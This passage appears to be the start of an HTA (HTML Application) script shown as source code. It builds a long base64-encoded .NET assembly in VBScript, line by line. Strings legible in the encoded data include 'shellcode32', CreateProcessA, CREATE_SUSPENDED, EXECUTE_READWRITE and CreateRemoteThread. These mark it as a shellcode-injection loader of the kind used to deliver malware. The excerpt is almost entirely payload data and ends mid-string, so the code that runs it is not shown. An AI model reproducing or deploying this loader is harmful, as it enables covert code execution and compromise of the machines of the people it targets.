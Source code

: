 ```hta
s = s &"BAIoDwAACgICKBkAAAp9AQAABCoAABMwAgBgAAAAAAAAAAJ+FQAACn0rAAAEAn4VAAAKfSwAAAQC"
s = s &"fhUAAAp9LQAABAJ+FQAACn04AAAEAn4VAAAKfTkAAAQCfhUAAAp9OgAABAJ+FQAACn07AAAEAigP"
s = s &"AAAKAgIoGQAACn0qAAAEKkJTSkIBAAEAAAAAAAwAAAB2Mi4wLjUwNzI3AAAAAAUAbAAAACgHAAAj"
s = s &"fgAAlAcAAEwJAAAjU3RyaW5ncwAAAADgEAAAXAAAACNVUwA8EQAAEAAAACNHVUlEAAAATBEAANwB"
s = s &"AAAjQmxvYgAAAAAAAAACAAABVx0CFAkCAAAA+gEzABYAAAEAAAAXAAAACQAAAFAAAAAJAAAAHwAA"
s = s &"ABkAAAAzAAAAEgAAAAEAAAABAAAABQAAAAEAAAABAAAABwAAAAAAmQYBAAAAAAAGAFwFkgcGAMkF"
s = s &"kgcGAIoEYAcPALIHAAAGALIE4QYGADAF4QYGABEF4QYGALAF4QYGAHwF4QYGAJUF4QYGAMkE4QYG"
s = s &"AJ4EcwcGAHwEcwcGAPQE4QYGAKsIqQYGAGEEqQYGAE0FqQYGALAGqQYGAMoIqQYGAFkHqQYGAL4I"
s = s &"qQYGAGYGqQYGAIQGcwcAAAAAJQAAAAAAAQABAAEAEABtBgAAPQABAAEACgAQAPgHAAA9AAEACAAK"
s = s &"ARAAzgYAAEEABAAJAAIBAAAbCAAASQAIAAkAAgEAADYIAABJACcACQAKABAABgcAAD0AKgAJAAIB"
s = s &"AABtBAAASQA8AAoAAgEAAPMGAABJAEUACgAGAH0G+gAGAEQHPwAGACQE/QAGAHQIPwAGAOcDPwAG"
s = s &"AMgD+gAGAL0D+gAGBp4DAAFWgLICAwFWgMACAwFWgGQAAwFWgIgCAwFWgMIAAwFWgFMCAwFWgPEB"
s = s &"AwFWgB0CAwFWgAUCAwFWgKABAwFWgAIDAwFWgF4BAwFWgEgBAwFWgOEBAwFWgE0CAwFWgDECAwFW"
s = s &"gGoDAwFWgIIDAwFWgJkCAwFWgB0DAwFWgHYBAwFWgHUAAwFWgD0AAwFWgCcBAwFWgKgAAwFWgDoD"
s = s &"AwFWgLkBAwFWgBgBAwFWgMYBAwFWgOUCAwEGBp4DAAFWgJEABwFWgHICBwEGAKYD+gAGAO8DPwAG"
s = s &"ABcHPwAGADMEPwAGAEsD+gAGAJoD+gAGAOcF+gAGAO8F+gAGAEcI+gAGAFUI+gAGAOQE+gAGAC4I"
s = s &"+gAGAOcICwEGAA0ACwEGABkAPwAGANIIPwAGANwIPwAGADQHPwAGBp4DAAFWgN4CDgFWgO8ADgFW"
s = s &"gJ0BDgFWgNgCDgFWgNUBDgFWgA8BDgFWgJQBDgFWgAMBDgEGBp4DAAFWgOcAEgFWgFcAEgFWgNUA"
s = s &"EgFWgFgDEgFWgGkCEgFWgE8DEgFWgN0AEgFWgGADEgFWgBEGEgFWgCQGEgFWgDkGEgEAAAAAgACW"
s = s &"IC4AFgEBAAAAAACAAJYg8wgqAQsAAAAAAIAAliAJCTUBEAAAAAAAgACWIGMIPwEVAAAAAACAAJEg"
s = s &"1ANFARcAUCAAAAAAhhg+BwYAHgBYIAAAAACGAE0EUAEeAGshAAAAAIYYPgcGACAAjCEAAAAAhhg+"
s = s &"BwYAIAAAAAEAOwQAAAIAUwQAAAMA5AcAAAQA0QcAAAUAwQcAAAYACwgAAAcAvAgAAAgAHAkBAAkA"
s = s &"BAcCAAoAzAYAAAEAGwQAAAIAiwgAAAMAAwYAAAQAawQAAAUAsggAAAEAdAgAAAIAfQgAAAMAIQcA"
s = s &"AAQAAwYAAAUAtQYAAAEAdAgAAAIA+gMAAAEAdAgAAAIA0QcAAAMA9wUAAAQAlQgAAAUAKAcAAAYA"
s = s &"CwgAAAcAsgMAAAEAAgkAAAIAAQAJAD4HAQARAD4HBgAZAD4HCgApAD4HEAAxAD4HEAA5AD4HEABB"
s = s &"AD4HEABJAD4HEABRAD4HEABZAD4HEABhAD4HFQBpAD4HEABxAD4HEACJAD4HBgB5AD4HBgCZAFMG"
s = s &"KQChAD4HAQCpAAQELwCxAHkGNACxAKQIOAChABIHPwChAGQGQgCxADsJRgCxAC8JRgC5AAoGTAAJ"
s = s &"ACQAWgAJACgAXwAJACwAZAAJADAAaQAJADQAbgAJADgAcwAJADwAeAAJAEAAfQAJAEQAggAJAEgA"
s = s &"hwAJAEwAjAAJAFAAkQAJAFQAlgAJAFgAmwAJAFwAoAAJAGAApQAJAGQAqgAJAGgArwAJAGwAtAAJ"
s = s &"AHAAuQAJAHQAvgAJAHgAwwAJAHwAyAAJAIAAzQAJAIQA0gAJAIgA1wAJAIwA3AAJAJAA4QAJAJQA"
s = s &"5gAJAJgA6wAJAKAAWgAJAKQAXwAJAPQAlgAJAPgAmwAJAPwA8AAJAAABuQAJAAQB4QAJAAgB9QAJ"
s = s &"AAwBvgAJABABwwAJABgBbgAJABwBcwAJACABeAAJACQBfQAJACgBWgAJACwBXwAJADABZAAJADQB"
s = s &"aQAJADgBggAJADwBhwAJAEABjAAuAAsAVgEuABMAXwEuABsAfgEuACMAhwEuACsAhwEuADMAmAEu"
s = s &"ADsAmAEuAEMAhwEuAEsAhwEuAFMAmAEuAFsAngEuAGMApAEuAGsAzgFDAFsAngGjAHMAWgDDAHMA"
s = s &"WgADAXMAWgAjAXMAWgAaAIwGAAEDAC4AAQAAAQUA8wgBAAABBwAJCQEAAAEJAGMIAQAAAQsA1AMB"
s = s &"AASAAAABAAAAAAAAAAAAAAAAAPcAAAACAAAAAAAAAAAAAABRAKkDAAAAAAMAAgAEAAIABQACAAYA"
s = s &"AgAHAAIACAACAAkAAgAAAAAAAHNoZWxsY29kZTMyAGNiUmVzZXJ2ZWQyAGxwUmVzZXJ2ZWQyADxN"
s = s &"b2R1bGU+AENyZWF0ZVByb2Nlc3NBAENSRUFURV9CUkVBS0FXQVlfRlJPTV9KT0IARVhFQ1VURV9S"
s = s &"RUFEAENSRUFURV9TVVNQRU5ERUQAUFJPQ0VTU19NT0RFX0JBQ0tHUk9VTkRfRU5EAERVUExJQ0FU"
s = s &"RV9DTE9TRV9TT1VSQ0UAQ1JFQVRFX0RFRkFVTFRfRVJST1JfTU9ERQBDUkVBVEVfTkVXX0NPTlNP"
s = s &"TEUARVhFQ1VURV9SRUFEV1JJVEUARVhFQ1VURQBSRVNFUlZFAENBQ1RVU1RPUkNIAFdSSVRFX1dB"
s = s &"VENIAFBIWVNJQ0FMAFBST0ZJTEVfS0VSTkVMAENSRUFURV9QUkVTRVJWRV9DT0RFX0FVVEhaX0xF"
s = s &"VkVMAENSRUFURV9TSEFSRURfV09XX1ZETQBDUkVBVEVfU0VQQVJBVEVfV09XX1ZETQBQUk9DRVNT"
s = s &"X01PREVfQkFDS0dST1VORF9CRUdJTgBUT1BfRE9XTgBHTwBDUkVBVEVfTkVXX1BST0NFU1NfR1JP"
s = s &"VVAAUFJPRklMRV9VU0VSAFBST0ZJTEVfU0VSVkVSAExBUkdFX1BBR0VTAENSRUFURV9GT1JDRURP"
s = s &"UwBJRExFX1BSSU9SSVRZX0NMQVNTAFJFQUxUSU1FX1BSSU9SSVRZX0NMQVNTAEhJR0hfUFJJT1JJ"
s = s &"VFlfQ0xBU1MAQUJPVkVfTk9STUFMX1BSSU9SSVRZX0NMQVNTAEJFTE9XX05PUk1BTF9QUklPUklU"
s = s &"WV9DTEFTUwBOT0FDQ0VTUwBEVVBMSUNBVEVfU0FNRV9BQ0NFU1MAREVUQUNIRURfUFJPQ0VTUwBD"
s = s &"UkVBVEVfUFJPVEVDVEVEX1BST0NFU1MAREVCVUdfUFJPQ0VTUwBERUJVR19PTkxZX1RISVNfUFJP"
s = s &"Q0VTUwBSRVNFVABDT01NSVQAQ1JFQVRFX0lHTk9SRV9TWVNURU1fREVGQVVMVABDUkVBVEVfVU5J"
s = s &"Q09ERV9FTlZJUk9OTUVOVABFWFRFTkRFRF9TVEFSVFVQSU5GT19QUkVTRU5UAENSRUFURV9OT19X"
s = s &"SU5ET1cAZHdYAFJFQURPTkxZAEVYRUNVVEVfV1JJVEVDT1BZAElOSEVSSVRfUEFSRU5UX0FGRklO"
s = s &"SVRZAElOSEVSSVRfQ0FMTEVSX1BSSU9SSVRZAGR3WQB2YWx1ZV9fAGNiAG1zY29ybGliAGxwVGhy"
s = s &"ZWFkSWQAZHdUaHJlYWRJZABkd1Byb2Nlc3NJZABDcmVhdGVSZW1vdGVUaHJlYWQAaFRocmVhZABs"
s = s &"cFJlc2VydmVkAHVFeGl0Q29kZQBHZXRFbnZpcm9ubWVudFZhcmlhYmxlAGxwSGFuZGxlAGJJbmhl"
s = s &"cml0SGFuZGxlAGxwVGl0bGUAbHBBcHBsaWNhdGlvbk5hbWUAZmxhbWUAbHBDb21tYW5kTGluZQBW"
s = s &"YWx1ZVR5cGUAZmxBbGxvY2F0aW9uVHlwZQBHdWlkQXR0cmlidXRlAERlYnVnZ2FibGVBdHRyaWJ1"
s = s &"dGUAQ29tVmlzaWJsZUF0dHJpYnV0ZQBBc3NlbWJseVRpdGxlQXR0cmlidXRlAEFzc2VtYmx5VHJh"
s = s &"ZGVtYXJrQXR0cmlidXRlAGR3RmlsbEF0dHJpYnV0ZQBBc3NlbWJseUZpbGVWZXJzaW9uQXR0cmli"
s = s &"dXRlAEFzc2VtYmx5Q29uZmlndXJhdGlvbkF0dHJpYnV0ZQBBc3NlbWJseURlc2NyaXB0aW9uQXR0"
s = s &"cmlidXRlAEZsYWdzQXR0cmlidXRlAENvbXBpbGF0aW9uUmVsYXhhdGlvbnNBdHRyaWJ1dGUAQXNz"
s = s &"ZW1ibHlQcm9kdWN0QXR0cmlidXRlAEFzc2VtYmx5Q29weXJpZ2h0QXR0cmlidXRlAEFzc2VtYmx5"
s = s &"Q29tcGFueUF0dHJpYnV0ZQBSdW50aW1lQ29tcGF0aWJpbGl0eUF0dHJpYnV0ZQBkd1hTaXplAGR3"
```